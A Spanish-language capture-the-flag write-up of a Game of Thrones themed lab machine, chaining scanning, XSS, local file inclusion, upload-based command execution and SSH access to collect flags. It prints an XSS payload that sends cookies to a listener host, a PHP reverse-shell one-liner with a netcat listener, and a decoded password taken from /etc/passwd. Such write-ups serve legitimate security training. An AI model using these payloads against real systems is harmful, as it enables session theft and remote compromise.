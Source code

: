 
# Reto 4

## Paso 1

Luego de configurar la maquina e iniciarla esta mostraba la ip de la misma al cual le hicimos un escaneo con nmap.

Encontramos el puerto 80 con un servidor apache y ssh en el 22.

## Paso 2

con wfuzz buscamos rutas y encontramos las siguientes:

```bash
=====================================================================
ID           Response   Lines    Word       Chars       Payload                              
=====================================================================
                        
000004946:   200        19 L     66 W       665 Ch      "comentarios"                        
000009563:   200        31 L     118 W      964 Ch      "index"                              
000017880:   200        0 L      5 W        37 Ch       "test"
```

la ruta test no tenia nada interesante, pero comentarios e index si:

index.php

![Captura de pantalla -2024-05-20 21-23-52](https://github.com/halexys/UciTeam1/assets/72656657/ee703efd-eca9-4325-b369-1836d4c5be6c)


comentarios.php

![Captura de pantalla -2024-05-20 21-27-34](https://github.com/halexys/UciTeam1/assets/72656657/c1b5bf4e-53b5-4df3-87f0-b2547c2055dc)


Este ultimo tenia tres cosas interesantes.

- Establecia una cookie user con un valor aleatorio y la mostraba en el texto "Tu llave es:"
- un enlace "http://palaces.dorne.got"
- un formulario con un textarea para enviar un "comentario"

&nbsp;

## Paso 3

Analizamos la web y encontramos q era vulnerable a XSS, enviando una etiqueta html con un pequeño codigo javascript en el comentario

&nbsp;

el cual enviaba a un sevidor q poniamos en escucha con python las cookies.

```html
<script>document.write('<img src="http://IP:PORT/'+document.cookie+'"/> ')</script>
```

lo q devolvio:

![Captura de pantalla -2024-05-20 21-44-17](https://github.com/halexys/UciTeam1/assets/72656657/4ea0930f-e349-4171-a296-aea0a3e52cf0)


de aqui la cookie interesante era user=Unbowed,Unbent,Unbroken

## Paso 4

tras un rato de intentar cosas pusimos la url q aparecia en esta pagina en /etc/hosts

y abrio otra pagina:

![Captura de pantalla -2024-05-20 21-53-32](https://github.com/halexys/UciTeam1/assets/72656657/09259921-848e-4765-ad44-8b8c292e5f59)


no demoramos mucho en darnos cuenta q teniamos q establecer la cokie q devolvio el XSS y nos permitio "Acceso" y la primera flag:

flag: flag{j4rd1n-Alc4z4r}

![Captura de pantalla -2024-05-20 21-55-52](https://github.com/halexys/UciTeam1/assets/72656657/f088ff70-9224-4955-992c-cf477c44067b)


junto con la flag otra url la cual agregamos a hosts : http://don-pedro.dorne.got

## ![Captura de pantalla -2024-05-20 22-05-16](https://github.com/halexys/UciTeam1/assets/72656657/c9f8e020-79c5-434a-b5bd-ff4458cc681b)


&nbsp;

### PASO 5

al darle en cambiar idioma salio lo siguiente al final de la pagina:

![Captura de pantalla -2024-05-20 22-10-27](https://github.com/halexys/UciTeam1/assets/72656657/5ee2f7b1-30a6-451d-99bd-eab212ed410c)


Era bastante obvio el LFI(loca file inclusion) ya q al principio de cada linea estaban las letras LFI y directamente probamos con file=flag.txt (el texto era muy obvio) y luego con access.txt

![Captura de pantalla -2024-05-20 22-14-19](https://github.com/halexys/UciTeam1/assets/72656657/1bdb0ae5-194d-4c20-9ac1-6e22e8749224)


![Captura de pantalla -2024-05-20 22-15-46](https://github.com/halexys/UciTeam1/assets/72656657/d8035307-fe5c-41bf-8a1f-3da493dcd2e2)


una nueva url en el acces.txt y un usuario y contraseña?

![Captura de pantalla -2024-05-20 22-18-16](https://github.com/halexys/UciTeam1/assets/72656657/426ce299-4407-4717-9019-4c8c481a74e5)


al ingresar el usario y la contraseña sale lo siguiente:

![Captura de pantalla -2024-05-20 22-19-33](https://github.com/halexys/UciTeam1/assets/72656657/9949bcdc-79f8-4721-9d09-951114beb4ec)


## Paso 6

probamos subir un archivo cualquiera:

![Captura de pantalla -2024-05-20 22-22-06](https://github.com/halexys/UciTeam1/assets/72656657/6bf241d5-a8aa-47c0-80db-c0bdc997bdb1)


como dice q solo funcionara secret.sh probamos ejecutar un comando simple de bash

```bash
ls
```

y probamos con lfi en la ruta del palacio de don pedro:

![Captura de pantalla -2024-05-20 22-27-05](https://github.com/halexys/UciTeam1/assets/72656657/cb5e3da1-754e-42ae-91a8-99161e43b4ee)


&nbsp;

Funciona la ejecucion remota de comandos, y probamos una revershell en php

```php
php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

y ponemos netcat en escucha:

```bash
nc -lnvp PORT
```

![Captura de pantalla -2024-05-20 22-32-17](https://github.com/halexys/UciTeam1/assets/72656657/4a2b0472-ab3e-487c-9e7d-cbb4a87ffcb3)

con la revershell navegamos por algunos directorios y encontros la 3ra flag en /home/www-data

![Captura de pantalla -2024-05-20 22-36-29](https://github.com/halexys/UciTeam1/assets/72656657/2c5df24c-faea-45bf-8cf6-cd45ed186728)



en /etc/passwd estaba el usuario doran y la contraseña en base64

```
doran:x:1001:1001:,,,,RDByNG4yMDI0Kgo=:/home/doran:/bin/bash
```

```
doran
D0r4n2024*
```

y luego accedimos por ssh

## Paso 7

dentro del directorio home del usuario doran habia lo siguiente:

```bash
doran@jnic2024:~$ ls
flag.txt  reto-final.txt
```

```bash
doran@jnic2024:~$ cat flag.txt 
No me fío de tu palabra, si no puedo confiar en ti, no podré entregarte la última flag
doran@jnic2024:~$
```

```bash
doran@jnic2024:~$ cat reto-final.txt 
Ya no tengo en nadie en quien confiar.

Voy a hacerte una ultima pregunta muy importante y necesito que me respondas con la verdad.

Dependiendo de tu respuesta, te dare o no la ultima flag.

Siento que alguien cercano a la familia, me va a traicionar, no se quien, pero necesito saberlo antes que sea tarde....

Podras decirme su nombre?: 

Respuesta: *******

Solo completa el nombre y te dire mi decision en el archivo flag.txt
doran@jnic2024:~$
```

Luego de googlear quien mato an doran martel encontramos q fue Ellaria y probamos reempalzar los asteriscos por Ellaria:

```bash
doran@jnic2024:~$ cat flag.txt 
Sabía que podía confiar en ti, antes de ser traicionado te entrego la última flag, cuida de Dorne!
flag{0=;;;D0rn3;;;>}
Felicidades!!! Reto D0rn3 Finalizado - Powered by j4ck 
doran@jnic2024:~$
```

&nbsp;

# FIN
